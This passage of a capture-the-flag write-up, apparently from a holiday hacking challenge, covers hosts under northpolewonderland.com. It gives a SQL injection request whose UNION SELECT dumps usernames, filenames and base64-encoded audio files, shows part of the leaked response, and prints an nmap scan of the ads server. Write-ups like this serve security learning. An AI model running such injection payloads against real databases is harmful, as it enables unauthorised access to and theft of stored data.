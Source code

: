 ```
date=2017-01-06&type=usage_reports` UNION SELECT id, username, filename, TO_BASE64(mp3), id FROM `audio` # &field%5B%5D=udid&modifier%5B%5D=gt&value%5B%5D=1&save=on
```

In the response, you will get this buried inside of the bug table.
```
<tr><td>3746d987-b8b1-11e6-89e1-42010af00008</td><td>administrator</td><td>discombobulatedaudio7.mp3</td><td>SUQzAwAAAAAAGFRSQ0sAAAACAAAAN1RJVDIAAAACAAAAN//7kGQAAAAAAAAAAAAAAAAAAAAAAAAA ...
```

You can `base64 -D` the file afterwards.

## ads.northpolewonderland.com 104.198.221.240

```
nmap --script=default 104.198.221.240


Starting Nmap 7.31 ( https://nmap.org ) at 2017-01-05 18:00 CET
Nmap scan report for 240.221.198.104.bc.googleusercontent.com (104.198.221.240)
Host is up (0.13s latency).
Not shown: 998 filtered ports
PORT   STATE SERVICE
22/tcp open  ssh
| ssh-hostkey:
|   1024 cf:4c:e0:20:6d:e7:c6:b1:6b:9f:ac:75:45:16:b1:93 (DSA)
|   2048 b9:a4:df:1e:34:0f:58:3e:2c:b7:e6:c6:77:0f:f5:3b (RSA)
|_  256 02:ec:fc:80:c0:fc:76:b3:cd:d2:64:39:af:3c:13:b3 (ECDSA)
80/tcp open  http
|_http-title: Ad Nauseam - Stupid Ads for Stupid People

Nmap done: 1 IP address (1 host up) scanned in 13.81 seconds
```

### Port 80

The web page provides a login form. The known passwords do not work. Looking at the source code of the pages, we learn that this might be a Meteor application.
